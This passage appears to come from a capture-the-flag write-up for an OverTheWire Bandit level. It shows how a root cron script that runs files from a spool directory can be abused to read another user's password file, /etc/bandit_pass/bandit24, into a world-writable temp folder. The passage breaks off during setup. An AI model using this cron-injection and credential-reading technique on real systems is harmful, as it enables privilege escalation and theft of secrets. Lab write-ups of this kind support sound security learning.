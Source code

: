 Seeing the contents of `/usr/bin/cronjob_bandit24.sh`:
```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

The script goes to `/var/spool/bandit24/foo`. The if condition skips over `.` and `..` in the directory. The code inside kills the process if the script doesn't stop after 60 seconds. Then it recursively removes all the files.

We likely need to create a script file to read bandit24's password before deletion. This will be done by injecting `/var/spool/bandit24/foo` with our password extraction script.

Create a temp folder and script:
```
bandit23@bandit:~$ mktemp -d
/tmp/tmp.mGPtDxFuKU
bandit23@bandit:~$ cd /tmp/tmp.mGPtDxFuKU
bandit23@bandit:/tmp/tmp.mGPtDxFuKU$ vi bandit24_pass.sh
```

We can then createa a script that will read bandit24's password from `/etc/bandit_pass/bandit24` and copy it into our temp folder:
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.mGPtDxFuKU/password
```

Set the necessary permissions to the folder and the file:
```
bandit23@bandit:/tmp/tmp.mGPtDxFuKU$ chmod +rx bandit24_pass.sh 
bandit23@bandit:/tmp/tmp.mGPtDxFuKU$ rm password.txt 
bandit23@bandit:/tmp/tmp.mGPtDxFuKU$ chmod 777 /tmp/tmp.mGPtDxFuKU
bandit23@bandit:/tmp/tmp.mGPtDxFuKU$ touch password
bandit23@bandit:/tmp/tmp.mGPtDxFuKU$ chmod +rwx password
bandit23@bandit:/tmp/tmp.mGPtDxFuKU$ ls -la
total 17016
drwxrwxrwx 2 bandit23 bandit23     4096 Feb 19 05:36 .
drwxrwx-wt 1 root     root     17412096 Feb 19 05:37 ..
-rwxrwxr-x 1 bandit23 bandit23       73 Feb 19 05:36 bandit24_pass.sh
-rwxrwxr-x 1 bandit23 bandit23        0 Feb 19 05:36 password
```
